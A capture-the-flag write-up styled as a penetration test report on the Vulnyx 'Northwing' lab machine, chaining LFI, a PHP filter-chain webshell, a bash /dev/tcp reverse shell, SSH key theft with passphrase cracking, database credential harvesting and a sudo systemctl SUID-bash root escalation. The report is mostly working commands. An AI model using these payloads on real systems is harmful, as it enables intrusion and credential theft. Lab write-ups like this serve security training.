# Northwing - Penetration Testing Report

**Machine:** Northwing

**Platform:** Vulnyx

**Difficulty:** Easy

**IP Address:** 172.31.141.215

**Operating System:** Linux

**Date:** 21.02.2026

**Notion link:** [link](https://www.notion.so/Northwing-30e74f42110180868b06f43bc2717d8f?source=copy_link)

---

## Executive Summary

This report documents the successful compromise of the Northwing machine through exploitation of a Local File Inclusion (LFI) vulnerability, followed by privilege escalation via SSH key extraction, database credential harvesting, and systemctl service manipulation.

The attack chain demonstrates vulnerabilities in web application security, credential storage, and sudo misconfigurations.

**Objectives Achieved:**

- User flag obtained (arthur)
- Root flag obtained
- Complete system compromise

---

## Network Reconnaissance

### Host Discovery

**Target IP:** 172.31.141.215

### Port Enumeration

Initial port scan to identify open services:

```bash
sudo nmap -T4 -sV -sS -sC -O --min-rate 5000 -p- 172.31.141.215
```

**Open Ports Discovered:**

| Port | State | Service |  |
| --- | --- | --- | --- |
| 22/tcp | open | SSH OpenSSH 9.6p1 Ubuntu 3ubuntu13.13 (Ubuntu Linux; protocol 2.0) | | ssh-hostkey:
|   256 60:02:0e:87:56:15:5c:00:07:96:91:cf:2e:34:48:52 (ECDSA)
|_  256 4c:1b:c2:51:d6:87:f6:ad:9b:e7:34:2f:be:a2:65:01 (ED25519) |
| 80/tcp | open | HTTP Apache httpd 2.4.58 ((Ubuntu)) | |_http-title: NorthWing | Luxury Redefined
|_http-server-header: Apache/2.4.58 (Ubuntu) |

---

## Web Application Analysis

### HTTP Service (Port 80)

The web application presents a travel company website with multiple navigable pages.



### Directory enumiration

```bash
feroxbuster -u http://172.31.141.215/ -w /usr/share/wordlists/dirb/common.txt -t 50 -C 403,404
```

There is only index.php found in this 80 port



### Vulnerability Discovery

### Local File Inclusion (LFI) Detection

While reviewing the application structure, a suspicious URL pattern was identified:

```
http://10.0.2.43/index.php?page=[filename]
```

The `page` parameter accepts user input and appears to include files dynamically, indicating potential LFI vulnerability.






**Testing for LFI:**

Basic LFI payload to read `/etc/passwd`:

```
http://10.0.2.43/index.php?page=../../../../etc/passwd
```

**Result:** error 403 Unauthorized Access



We try use this PHP **wrapper** in the **page** parameter to see if it could display the contents of /etc/passwd in base64 **.**

```bash
php://filter/convert.base64-encode/resource=index.php
```



Successfully retrieved base64-encoded /etc/passwd

we can decode it from https://www.base64decode.org/ web page


---

## Exploitation

### PHP Filter Chain Attack

### Vulnerability: LFI to Remote Code Execution

**Severity:** Critical

**CVSS v3.1:** 9.8

Since direct code execution was restricted, PHP filter chains were leveraged to bypass restrictions and achieve RCE.

### Step 1: PHP Filter Chain Generation

Using the **PHP Filter Chain Generator** tool to create a malicious payload:

```bash
python3 php_filter_chain_generator.py --chain '<?=`$_GET[0]`?>'
```

**Purpose:** Generate a complex filter chain that writes PHP code capable of executing system commands via a GET parameter.

github repo for php_filter_chain_generator  —>  https://github.com/synacktiv/php_filter_chain_generator.git

**Payload Injection:**

The generated filter chain was injected into the `page` parameter, creating a backdoor that accepts commands via the `0` parameter.

### Step 3: Command Execution Verification

Testing command execution:

```
http://10.0.2.43/index.php?0=whoami&page=[FILTER_CHAIN]
```

**Output:** `www-data`

**Result:** Remote code execution achieved as `www-data` user.

---

### Reverse Shell Establishment

### Step 1: Setup Listener

Netcat listener configured on attacking machine:

```bash
nc -lvnp 443
```

### Step 2: Execute Reverse Shell

Bash reverse shell payload injected via the RCE backdoor:

```bash
bash -c 'bash -i >& /dev/tcp/10.0.2.7/443 0>&1'
```

**URL-encoded version:**

```
http://10.0.2.43/index.php?0=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.0.2.7%2F443%200%3E%261%27&page=[FILTER_CHAIN]
```



### Step 3: Shell Received

```bash
nc -lvnp 443
Connection from [172.31.141.215] 48068

www-data@northwing:/var/www/html$
```

**Initial Access Summary:**

- **User:** www-data
- **UID/GID:** 33/33
- **Shell:** /bin/bash
- **Working Directory:** /var/www/html



---

## Privilege Escalation

### Phase 1: Lateral Movement to Arthur

### Local Enumeration

Checking home directories for accessible user accounts:

```bash
ls -la /home
```

**Discovery:** User `arthur` directory permissions allow read access by www-data.

### SSH Key Extraction

Examining arthur's SSH configuration:

```bash
ls -la /home/arthur/.ssh
```

**Finding:** SSH private key found with non-standard naming: `id_ed25519`

**Key Extraction:**

```bash
cat /home/arthur/.ssh/id_ed25519
```



The private key was copied to the attacking machine and appropriate permissions set:

```bash
chmod 600 sshkeyarthur.txt
```

### SSH Key Cracking

Attempting SSH connection revealed the key is passphrase-protected.

**Converting key format for John the Ripper:**

```bash
ssh2john sshkeyarthur.txt > ssh_hash.txt
```

**Cracking the passphrase:**

```bash
john ssh_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

**Passphrase discovered:** `aventura`




### SSH Authentication

```bash
ssh -i id_rsa arthur@172.31.141.215 
```

**User Flag Retrieved:**

```bash
cat user.txt
# 5f4dcc3b5aa765d61d8327deb882cf99
```



---

### Phase 2: Lateral Movement to Developer

### Database Credential Discovery

Exploring web application directory:

```bash
cd /var/www/html
ls -la
```

**Discovery:** Internal application directory found.

```bash
grep . -r | grep -E 'password|user'
```



**Examining connection.php:**

```bash
cat internal_app/connection.php
```

**Credentials Found:**

- **Database:** northwing
- **Username:** northwing
- **Password:** N0rthw!ng2026$
- **Host:** localhost

### MySQL Database Enumeration

Connecting to MySQL server:

```bash
mysql -u db_user -p
```



**Database Exploration:**

```sql
USE northwing;
SHOW TABLES;
# users
SELECT * FROM users;
```

**Password Hashes Retrieved:**

| Username | Password Hash |
| --- | --- |
| arthur | $2y$10$yH5fQH6qYz5Zt7KzQ4bZ2uM3m3uEJwF2Kz8KpJpQz7yF0Jq8WJvQK |
| developer | $2a$12$6n7/juND57eFUlODfeB87e45x24ibPr4eiZPLmKKIA84YKsj3fvGq |



### Hash Cracking

Saving hashes to file:

```bash
echo "[HASH_2]" > developerhash.txt
```

**Cracking with John the Ripper:**

```bash
john developerhash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

**Password cracked:** `greenday`



### User Switching from arthur user account

```bash
su developer
Password: greenday
```



---

### Phase 3: Privilege Escalation to Root

### Sudo Permissions Analysis

Checking sudo privileges:

```bash
sudo -l
```

**Finding:**

```
User developer may run the following commands on northwing:
    (root) NOPASSWD: /bin/systemctl
```

**Vulnerability:** Systemctl can be exploited to execute arbitrary commands as root.

### Exploitation Strategy

Create a malicious systemd service that grants SUID permissions to bash.

**Step 1: Create Malicious Service File**

```bash
cat << 'EOF' > /tmp/privesc.service
[Service]
Type=oneshot
ExecStart=/bin/bash -c "chmod u+s /bin/bash"

[Install]
WantedBy=multi-user.target
EOF
```

**Step 2: Link Service to Systemd**

```bash
sudo systemctl link /tmp/privesc.service
```

**Step 3: Enable and Start Service**

```bash
sudo systemctl enable --now /tmp/privesc.service
```

**Step 4: Verify SUID Bit**

```bash
ls -la /bin/bash
```

**Output:** `-rwsr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash`



**Step 5: Execute Privileged Shell**

```bash
bash -p
```

```bash
id
# uid=1002(developer) gid=1002(developer) euid=0(root) groups=1002(developer)

whoami
# root
```



---

## Proof of Compromise

### Root Flag

```bash
cat /root/root.txt
d41d8cd98f00b204e9800998ecf8427e
```





---

## Vulnerability Summary

| # | Vulnerability | Severity | CVSS | Impact |
| --- | --- | --- | --- | --- |
| 1 | Local File Inclusion (LFI) | Critical | 9.8 | Remote code execution |
| 2 | Weak SSH Key Passphrase | High | 7.5 | Unauthorized SSH access |
| 3 | Hardcoded Database Credentials | High | 7.8 | Database compromise |
| 4 | Weak Password Hashing | High | 7.5 | Password recovery via cracking |
| 5 | Sudo Systemctl Misconfiguration | Critical | 8.8 | Privilege escalation to root |

---

## Attack Chain Visualization

```
┌─────────────────────────────────────────────────────────────┐
│                  ATTACK FLOW DIAGRAM                        │
└─────────────────────────────────────────────────────────────┘

    [1] Network Reconnaissance
              │
              └──> Ports 22, 80 discovered
                      │
                      ↓
    [2] Web Application Analysis
              │
              └──> LFI vulnerability in index.php?page=
                      │
                      ↓
    [3] LFI to RCE (PHP Filter Chain)
              │
              └──> Command execution as www-data
                      │
                      ↓
    [4] Reverse Shell Established
              │
              └──> Initial access: www-data
                      │
                      ↓
    [5] SSH Key Extraction
              │
              ├──> Arthur's id_ed25519 found
              │
              └──> Passphrase cracked: aventura
                      │
                      ↓
    [6] Lateral Movement: Arthur
              │
              └──> User flag obtained
                      │
                      ↓
    [7] Database Credential Discovery
              │
              └──> MySQL credentials in connection.php
                      │
                      ↓
    [8] Password Hash Extraction
              │
              └──> Developer hash cracked: greenday
                      │
                      ↓
    [9] Lateral Movement: Developer
              │
              └──> sudo systemctl privileges found
                      │
                      ↓
    [10] Systemctl Service Exploitation
              │
              └──> SUID bash created
                      │
                      ↓
         [11] ROOT ACCESS ACHIEVED
              │
              └──> Root flag obtained
```

---

## Tools Used

| Tool | Purpose | Version |
| --- | --- | --- |
| Nmap | Network reconnaissance | 7.94 |
| Netcat | Reverse shell listener | Traditional |
| PHP Filter Chain Generator | RCE payload generation | Latest |
| John the Ripper | Password cracking | Jumbo |
| MySQL Client | Database enumeration | 8.0 |
| Systemctl | Privilege escalation | Systemd |
| feroxbuster | directory enumiration | 2.13.1 |

---

## Conclusion

The Northwing machine was successfully compromised through a chain of vulnerabilities starting with Local File Inclusion, progressing through credential harvesting and SSH key extraction, and culminating in privilege escalation via sudo misconfiguration. The engagement demonstrates the importance of:

- Secure input validation and sanitization
- Proper credential management and storage
- Restrictive file system permissions
- Careful sudo policy configuration
- Defense-in-depth security strategies

**Difficulty Rating:** Easy (as advertised)

**Learning Outcomes:** Web exploitation, lateral movement, Linux privilege escalation

---

**Happy Hacking!**